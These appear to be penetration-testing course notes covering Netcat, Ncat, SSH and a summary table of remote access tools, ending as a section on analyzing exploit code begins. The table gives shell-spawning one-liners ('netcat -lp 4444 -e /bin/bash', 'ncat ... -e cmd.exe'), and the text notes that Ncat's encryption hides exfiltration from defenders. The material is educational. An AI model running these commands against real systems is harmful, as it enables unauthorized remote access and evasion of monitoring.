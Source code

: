 ### Monitoring with Netcat
---
Ncat is a tool developed for Nmap as an improvement over Netcat. As such, you can use the same syntax when executing commands and the same options seen in Netcat’s options table. It can also act as a proxy, launch executables, and transfer files, but there is additional functionality with this tool that is key to a penetration tester. Notably, Ncat’s advantage over Netcat is the fact that it can encrypt communications with SSL so that the traffic is not visible to anyone on the network. This is of importance when exfiltrating files or sending commands that could alert defenders or defense systems of your presence, especially if they have advanced security systems that are analyzing traffic on the network.

### Communicating Within A Secure Shell
---
When it comes to encryption in communication, ***Secure Shell (SSH)*** is the perfect replacement for old technologies like Telnet and a great way to securely issue commands and copy files over an unsecured network. Much like Telnet, it is commonly used by system administrators to remotely manage servers and other devices. As a penetration tester, you need to be familiar with SSH, as it is frequently found on all computer systems. You should understand both its importance and how to exploit it. One issue with SSH is that, by default, you will need a credential to use it and, if configured with higher security levels, also a certificate and keypair.

In contrast to Netcat and Ncat, SSH was not developed with network testing in mind but still, with the multiple features and options available, it allows an ethical hacker to perform advanced tasks such as secure tunnels for pivoting, which you will explore in Lesson 16.

### Summarizing Remote Access Tools
---
The following is a summary table of the remote access tools discussed with command examples:

|    **Service**     | **Description**                                                                                                                                                                                                                                                                                                                                                                                            | **Examples**                                                 |
| :----------------: | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------ |
|       Telnet       | An older remote protocol that does not support <br>encryption and is disabled on most modern systems. <br>However, some older or insecure systems may <br>still have this.                                                                                                                                                                                                                                 | **`telnet 192.168.1.50 12345`**                              |
|     rsh/rlogin     | A Linux command that is similar to Telnet, but if the <br>server has an `.rhosts` file configured a certain way, <br>you won't even need to supply credentials. The <br>`rsh` command can open a shell, but it also gives <br>you the ability to execute a command directly                                                                                                                                | **`rlogin 192.168.1.50`**<br>**`rsh 192.168.1.50 ifconfig`** |
|       Netcat       | Command-line utility used to read from or write to <br>TCP, UDP, or Unix domain socket network <br>connections. Highly versatile but does not <br>use encryption.                                                                                                                                                                                                                                          | **`netcat -lp 4444 -e /bin/bash`**                           |
|        Ncat        | Tool developed for Nmap as an improvement over <br>Netcat, not only retaining most of the functionality, <br>but also adding more, of which an important <br>one is support for SSL.                                                                                                                                                                                                                       | **`ncat 192.168.1.50 4444 -e cmd.exe`**                      |
| Secure Shell (SSH) | A modern answer to Telnet's lack of encryption <br>and other security mechanisms. Some systems <br>(particularly Linux systems) have SSH enabled by <br>default. If you know the credentials of an account <br>on the system you are trying to access, you can <br>use them to authenticate. However, some <br>configurations require the use of a digital <br>certificate and keypair for authentication. | **`ssh 192.168.1.50`**                                       |

## Topic 14C - Analyze Exploit Code
---
> [!note] Exam Objectives Covered
> *3.1 Given a scenario, research attack vectors and perform wireless attacks.*
> *5.2 Given a scenario, analyze script or code sample for use in a penetration test.*

In this section, we will look at different first steps to be taken during the process of system hacking.

Assuming you have already reviewed the preceding steps from prior lessons, and keeping in mind that more advanced steps will follow in the next lessons, it is now time for the crucial step of gaining entry and gathering some basic information for our subsequent procedures.
